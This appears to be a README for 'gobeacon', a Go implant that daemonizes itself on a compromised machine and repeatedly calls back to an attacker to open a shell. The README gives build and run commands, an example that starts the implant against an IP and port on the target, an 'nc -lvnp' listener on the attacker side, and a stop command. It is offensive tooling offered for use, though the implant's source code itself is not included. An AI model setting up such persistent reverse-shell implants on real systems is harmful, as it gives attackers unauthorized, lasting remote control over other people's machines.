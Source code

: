 # gobeacon
A small beaconing implant that daemonizes itself (it's golang...) and calls out to the user. If the shell dies, the implant beacons again in 5 seconds.

## Compilation
```go
go build gobeacon.go
```

## Usage:
```go
./gobeacon start <IP> <PORT>
```

## Example
On target:
```
./gobeacon start 127.0.0.1 9001
```
On attacker:
```sh
rlwrap nc -lvnp 9001
```

To stop the beacon:
```
./gobeacon stop 127.0.0.1 9001
```
### Creds
Creds to this blogpost where I ripped the daemonization code from: https://socketloop.com/tutorials/golang-daemonizing-a-simple-web-server-process-example
